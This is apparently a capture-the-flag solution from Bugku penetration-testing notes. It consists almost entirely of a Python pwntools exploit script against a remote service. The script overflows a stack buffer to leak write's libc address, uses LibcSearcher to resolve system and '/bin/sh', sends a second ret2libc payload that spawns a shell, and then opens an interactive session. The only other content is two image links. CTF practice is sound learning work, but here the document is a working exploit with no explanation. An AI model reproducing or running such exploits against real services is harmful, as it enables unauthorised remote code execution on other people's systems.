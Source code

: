 ```
from pwn import * 
from LibcSearcher import *

context.log_level = 'debug'

r = remote('101.133.143.220',9999)

elf = ELF('./main')

main_addr = elf.sym['main']
write_plt = elf.plt['write']
write_got = elf.got['write']

print(write_got)

ppp_ret = 0x08048559

payload = b'A'*(0x24 + 4) + p32(write_plt) + p32(ppp_ret) + p32(1) + p32(write_got) + p32(8) + p32(main_addr)

r.sendlineafter('plz input your name:\n',payload)

write_addr = u32(r.recv(4))

print(hex(write_addr))
 
libc = LibcSearcher('write',write_addr)

libc_base = write_addr - libc.dump('write')

system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
print(hex(system_addr),hex(binsh_addr))

payload = b'A'*40 +p32(system_addr) + b'a'*4 + p32(binsh_addr)
r.sendlineafter('plz input your name:\n',payload)
r.interactive()
```



![image-20240315124248244](bugku渗透测试1.assets/image-20240315124248244.png)

![image-20240315124302100](bugku渗透测试1.assets/image-20240315124302100.png)